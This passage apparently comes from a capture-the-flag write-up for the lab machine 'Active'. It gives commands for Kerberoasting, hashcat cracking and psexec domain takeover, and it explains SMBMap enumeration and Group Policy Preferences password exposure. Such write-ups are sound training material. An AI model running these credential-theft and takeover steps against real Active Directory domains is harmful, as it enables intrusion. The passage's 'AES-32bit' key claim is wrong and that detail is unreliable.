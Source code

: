 ### Kerberoasting Attack

The critical finding came from discovering a Service Principal Name (SPN) associated with the Administrator account. This allowed for a Kerberoasting attack:

```bash
python3 GetUsersSPNs.py -request -dc-ip 10.10.10.100 active.htb/svc_tgs
```

This will give us the hash for the Administrator user, using Hashcat, we can crack it and get the password:

```bash
hashcat -m 13100 <hash> <wordlist>
```

After cracking the obtained hash with Hashcat, I had Administrator credentials, allowing full domain compromise through psexec.py:

```bash
python3 psexec.py active.htb/Administrator@10.10.10.100
```

After running this command we have a shell and can get the root flag.

## Key Learning Points

### Technical Skills Gained

#### Reverse DNS Lookup Enumeration Improvements
From Ippsec's walkthrough, I learned that he constantly leverages the `nslookup` tool to perform reverse DNS lookups on the server in order to gain more information about the target host.

```bash
nslookup
> server <targetIP>
> 127.0.0.1
> <targetIP>
```

#### SMBMap Improved Usage
We can use SMBMap to recursively go through an entire share so we can see what's inside faster instead of manually going through the directories:

```bash
smbmap -R <ShareName> -H 10.10.10.100
smbmap -R <ShareName> -H 10.10.10.100 -A Groups.xml -q
```

#### GPP Policies and Files for Windows <12
This box is a Windows 2008 machine with different default settings for Active Directory. Before Microsoft's MS14-025 patch, administrators could create group policies that would store credentials for user account policies or network drive mappings.

**Formal Explanation:** For Windows Server 2012 R2 and previous, before MS14-025 patch, a scenario exists where Administrators could create group policies that would store credentials in the `Groups.xml` policy file in SYSVOL, accessible to all domain users. The AES-32bit key for this was disclosed publicly, allowing attackers to decrypt passwords with publicly available tools.
